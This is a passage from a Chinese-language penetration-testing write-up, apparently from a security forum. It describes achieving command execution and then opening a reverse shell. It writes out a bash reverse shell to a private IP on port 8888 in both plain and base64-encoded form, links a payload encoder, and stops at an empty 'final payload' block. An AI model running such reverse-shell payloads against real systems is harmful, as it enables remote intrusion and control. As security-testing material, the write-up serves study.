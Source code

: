 执行之后 成功回显

![image-20210521090244473](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-38427e6b71e428eb593c94a28c5fbca5f7cab66c.png)

![image-20210521090223786](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f68348372ed81971f18eac3525f76a814443b252.png)

#### 反弹shell

那么这边我直接反弹shell了

上java编码的网站

```php
http://www.jackson-t.ca/runtime-exec-payloads.html
```

![image-20210521085321594](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-26aec737e9660c9a0458d95ba39c13e2bc06200f.png)

```php
bash -i >&amp; /dev/tcp/192.168.175.130/8888 0>&amp;1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```

将该命令放入Poc中

![image-20210521085526917](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1cd3f788c05c8fb104bbcf96480f9ba206fbbd22.png)

最终的payload：

```php
```